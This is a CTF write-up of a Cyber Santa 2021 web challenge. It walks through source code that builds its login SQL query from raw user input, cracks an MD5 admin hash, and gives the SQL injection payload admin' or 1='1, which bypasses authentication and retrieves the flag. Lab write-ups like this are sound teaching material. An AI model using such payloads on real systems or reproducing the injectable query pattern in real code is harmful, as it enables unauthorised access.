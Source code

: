 # CTF Name – Cyber Santa 2021

- **Category:** Web Day 2
- **Points:** 300
- **Difficulty:** ★☆☆☆

## Challenge

We are given a website that has a simple login page, as well as its source code

![Website](./images/1.png)

In the source code there is a `database.sql` file that has some info about the tables. We can see that the flag is in the table `toylist` and we have a list of users (manager, admin) along with their hashed password under the `users` table.

```
INSERT INTO `toylist` (`id`, `toy`, `receiver`, `location`, `approved`) VALUES
(1,  'She-Ra, Princess of Power', 'Elaina Love', 'Houston', 1),
(2, 'Bayblade Burst Evolution', 'Jarrett Pace', 'Dallas', 1),
(3, 'Barbie Dreamhouse Playset', 'Kristin Vang', 'Austin', 1),
(4, 'StarWars Action Figures', 'Jaslyn Huerta', 'Amarillo', 1),
(5, 'Hot Wheels: Volkswagen Beach Bomb', 'Eric Cameron', 'San Antonio', 1),
(6, 'Polly Pocket dolls', 'Aracely Monroe', 'El Paso', 1),
(7, 'HTB{f4k3_fl4g_f0r_t3st1ng}', 'HTBer', 'HTBland', 0);
-- --------------------------------------------------------

--
-- Table structure for table `users`
--

CREATE TABLE `users` (
  `id` int NOT NULL,
  `username` varchar(256) NOT NULL,
  `password` varchar(256) NOT NULL
) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4;

--
-- Dumping data for table `users`
--

INSERT INTO `users` (`id`, `username`, `password`) VALUES
(1, 'manager', '69bbdcd1f9feab7842f3a1c152062407'),
(2, 'admin', '592c094d5574fb32fe9d4cce27240588');
```

From the login function in the `router/index.js` page we can see that the password is MD5 hashed. In order to reach the flag we can see that we need to be `admin` user and query `/api/toylist`.

```
router.post('/api/login', async (req, res) => {
	const { username, password } = req.body;
	if (username && password) {
		passhash = crypto.createHash('md5').update(password).digest('hex');
		return db.loginUser(username, passhash)
			.then(user => {
				if (!user.length) return res.status(403).send(response('Invalid username or password!'));
				JWTHelper.sign({ username: user[0].username })
					.then(token => {
						res.cookie('session', token, { maxAge: 43200000 });
						res.send(response('User authenticated successfully!'));
					})
			})
			.catch(() => res.status(403).send(response('Invalid username or password!')));
	}
	return res.status(500).send(response('Missing parameters!'));
});

router.get('/api/toylist', AuthMiddleware, async (req, res) => {
	return db.getUser(req.data.username)
		.then(user => {
			approved = 1;
			if (user[0].username == 'admin') approved = 0;
			return db.listToys(approved)
				.then(toyInfo => {
					return res.json(toyInfo);
				})
				.catch(() => res.status(500).send(response('Something went wrong!')));
		})
		.catch(() => res.status(500).send(response('Something went wrong!')));
});
```

Popping `admin`'s password into an online MD5 password cracker yielded the password `tryharder`, which as expected, failed to log me in.

## Solution

In the `database.js` during login validation, we can see that it fails to prepare statements properly but instead injects the user input directly into the SQL statement making this vulnerable to SQL injection.

```
async loginUser(user, pass) {
    return new Promise(async (resolve, reject) => {
      let stmt = `SELECT username FROM users WHERE username = '${user}' and password = '${pass}'`;
      console.log(stmt);
      this.connection.query(stmt, (err, result) => {
        console.log(err, result);
        if (err) reject(err);
        try {
          resolve(JSON.parse(JSON.stringify(result)));
        } catch (e) {
          reject(e);
        }
      });
    });
  }

```

Using a payload of

```
admin' or 1='1
```

and any password successfully logs us in and displays the flag.

![Flag found](./images/2.png)

```
HTB{1nj3cti0n_1s_in3v1t4bl3}
```

## Thoughts

- Simple SQL injection
- A very simple confidence booster for web challenges hahhaha
